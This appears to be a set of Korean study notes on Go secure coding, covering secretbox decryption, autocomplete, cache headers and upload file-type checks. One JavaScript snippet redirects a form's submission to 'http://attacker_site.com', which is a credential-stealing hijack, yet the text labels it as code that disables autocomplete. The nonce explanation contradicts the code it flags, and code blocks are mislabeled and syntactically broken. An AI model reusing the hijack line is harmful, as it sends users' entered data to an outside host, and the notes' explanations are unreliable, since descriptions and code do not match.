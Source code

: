 ```golang

decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```
<br/>

* 이 코드에서 취약점이 발생할 수 있다.  
복호화를 하는 과정에서, 암호화 할 때 사용한 것과 동일한 nonce와 키를 사용하지 않았고,  
이 과정에서 취약점으로 이어질 수 있다.<br/><br/>
**_취약점 코드_**
```golang
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
```
<br/>

* 데이터를 보호하는 방법은 여러가지 있는데, 그 중 하나가 비활성화이다.  
```golang
<form method="post" action="/form" autocomplete="off">
<input type="text" id="cc" name="cc" autocomplete="off">
```
특정 양식에서 자동완성을 비활성화 하는 방법이다.<br/><br/>

* 이번 코드는 로그인 양식에서 자동완성을 비활성화 하는 코드이다.
```golang
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```
<br/>

* 이 코드는 민감한 정보가 포함된 페이지의 캐시 제어를 비활성화 하는 코드이다.
```golang
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

## file_management
* 파일 관리에서 보안 설정을 하는 방법은 다음과 같다.  
```golang
{...}
buff := make([]byte, 512)
_, err = file.Read(buff)
{...}

filetype := http.DetectContentType(buff)

{...}
switch filetype {
case "image/jpeg", "image/jpg":
  fmt.Println(filetype)
case "image/gif":
  fmt.Println(filetype)
case "image/png":
  fmt.Println(filetype)
default:
  fmt.Println("unknown file type uploaded")
}
{...}
```
